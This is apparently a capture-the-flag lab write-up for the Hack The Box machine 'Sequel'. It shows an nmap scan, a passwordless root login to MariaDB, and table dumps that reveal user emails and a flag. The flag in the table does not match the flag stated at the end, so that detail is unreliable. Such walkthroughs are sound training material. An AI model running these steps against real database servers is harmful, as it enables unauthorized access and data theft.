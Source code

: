```yaml
---
layout: default
title: Sequel
---
```


## TL;DR

We see port 3306 is open, so there is `mysql` server. We login using root username and no password, and find the flag.

### Recon

we start with `nmap`, using this command, i didn't use `-p-` and also `-sV`, because it takes to much time, used only `-sC` :
```bash
nmap -sC --min-rate=10000 $target
```

![nmap](image-1.png)

As you can see, port `3306`, which has *mysql* service, is opened.

```bash
PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 151
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, FoundRows, Speaks41ProtocolNew, InteractiveClient, IgnoreSigpipes, SupportsTransactions, SupportsCompression, LongColumnFlag, Support41Auth, SupportsLoadDataLocal, ODBCClient, ConnectWithDatabase, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: q1<{v_Y~2x)_'@OKjS@(
|_  Auth Plugin Name: mysql_native_password
```

### Connect to mysql server using root user and no password and find password

We try to connect to the *mysql* using `root` username, and hope we won't need to provide password, `-h` stands for host, `-u` is username, `-P` is port, and i also disabled the verification of the ssl, because it causes problems:
```bash
mysql -h $target -u root -P 3306 --skip-ssl-verify-server-cert
``` 

![mysql](image.png)

Okay, so first let's view the database using `show databases;`
```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (1.449 sec)
```

Now, let's use `htb` table, using `use htb;`, and then show the tables in this database, using `show tables;`
```bash
MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.170 sec)
```

Okay, now we want to fetch all the data from `users` table, using `select * from users;`:
```bash
MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.211 sec)
```

The flag isn't here, so let's fetch the data from `config` table, using `select * from config;`:
```bash
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.255 sec)
```

And we find the flag.

![flag](image-2.png)

**Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
